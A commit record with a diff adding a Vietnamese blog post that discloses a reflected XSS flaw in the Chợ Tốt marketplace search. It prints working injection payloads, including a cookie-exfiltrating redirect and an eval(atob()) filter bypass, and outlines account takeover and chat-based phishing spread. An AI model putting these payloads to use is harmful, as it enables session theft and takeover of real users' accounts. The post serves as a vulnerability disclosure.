

Before and after one commit to nguyentest/laptrinhcuocsong, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 631 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
add post toi da hack cho tot nhu the nao

````diff
--- /dev/null
+++ b/_posts/2016-11-23-toi-da-hack-cho-tot-nhu-the-nao.md
@@ -0,0 +1,71 @@
+---
+layout: post
+title: Tôi đã hack Chợ Tốt như thế nào
+---
+
+Hôm nay thử dạo một vòng Chợ Tốt kiếm mấy món hàng cũ, thì phát hiện lỗi XSS, đây là lỗi không mới, cách thức tấn công cũng đơn giản, nhưng nhiều khi cần rất nhiều sáng tạo trong quá trình khai thác.
+
+Thử tìm kiếm với từ khóa "iphone 7" thì thấy như thế này:
+
+![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/mh0excozyx_c1.png)
+
+Ai chà, url đẹp phết, mình thích url này rồi đấy, search key đã được bỏ dấu và thêm dấu gạch ngang cho hợp chuẩn. Thử thêm một ít html vào xem sao:
+
+![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/xq1tymmaf1_c2.png)
+
+Rất nhiều nơi, search key đã được entities, tuy nhiên vì lý do nào đó, search key trong đoạn javascript này đã không được xử lý.
+Vấn đề là, từ khóa nó đang nằm trong string, nên alert không xảy ra hiện tượng gì.
+
+Cuối cùng mình sửa search key như sau:
+
+```javascript
+iphone 7" }; alert("something went wrong"); var a = { "a":"
+```
+
+Thì nhận được alert:
+
+![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/sk8bcvtkaw_c3.png)
+
+Bạn thấy không? Mình muốn nói đến cái search key trên, từ một property của object, nó đã tách thành 2 object, và alert nằm giữa một cách đẹp đẽ và tuyệt vời.
+
+OK, giờ thử redrect đến 1 trang ngoài cùng với cookie của người dùng xem sao, mình thử code này:
+
+```javascript
+iphone 7" }; window.location="http://google.com/" + document.cookie; var a = { "a":"
+```
+
+![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/o7l9sidows_c4.png)
+
+Cái lề gì thốn, coder đã cẩn thận bỏ dấu gạch chéo // và phần sau của search key đi, cũng như lọc một số từ đặc biệt trong chuỗi, như vậy là không thể tương tác gì url bên ngoài được? Không, phải nghĩ cách khác. Cuối cùng thì mình đã tìm ra cách hoàn hảo nhất là đây:
+
+```javascript
+iphone 7" }; eval(atob("xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx")); var a = { "a":"
+```
+
+Với xxxxx là mã hóa base64 của một đoạn code javascript bất kỳ, tức là chúng ta có thể chèn bất kỳ đoạn javascript nào vào Chợ Tốt. Ví dụ sau đây để alert cookie:
+
+```javascript
+iphone 7" }; eval(atob("YWxlcnQoIGRvY3VtZW50LmNvb2tpZSk=")); var a = { "a":"
+```
+
+Và đây là kết quả:
+
+![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/t9g7rdgqhh_9.png)
+
+Đã đến bước này, thì các bạn đã biết mình sẽ làm gì tiếp theo rồi phải không? Mình đăng 1 bài viết mua bán với giá rất rẻ, trong đó có kèm link, lấy cookie để vào được tài khoản của những người không may click vào link.
+
+Nhưng không dừng lại ở đó, khi đã vào được tài khoản của vài thành viên khác, mình có thể mở rộng hơn qua chính công cụ chat của Chợ Tốt bằng tokenKey đã lấy được. Viết script tự động chat với nhiều thành viên khác với nội dung bán đồ rất rẻ, và kèm link để câu.
+
+![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/j5w20u6nil_c6.png)
+
+Tâm lý là khi được chat về sản phẩm đang bán, người dùng rất dễ click vào link, social engineering khá hiệu quả trong trường hợp này.
+
+Hiện tại mình đã report với Chợ Tốt, nhưng họ có vẻ không quan tâm lắm, chỉ nói chung chung là sẽ kiểm tra.
+
+Mình sẽ update tình hình lên bài viết này.
+
+> Update 1:
+> Mình đã gửi report đến Chợ Tốt, và sau 10 tiếng nhận lại được 1 email phản hồi yêu cầu mô tả tái hiện lỗi, mình đã gửi lại và chưa nhận được hồi đáp. Lỗi chưa được fix.
+>
+> Update 2:
+> Đến 15h ngày 23/11: Lỗi đã được lẳng lặng fix bằng một cách củ chuối là: remove ký tự đóng mở ngoặc đơn () trong search key, vẫn có thể bypass được,  chưa có thông báo gì đến mình, tất cả là một email chung chung.
````
Also changed, not shown: category.md (line endings or trailing spaces).
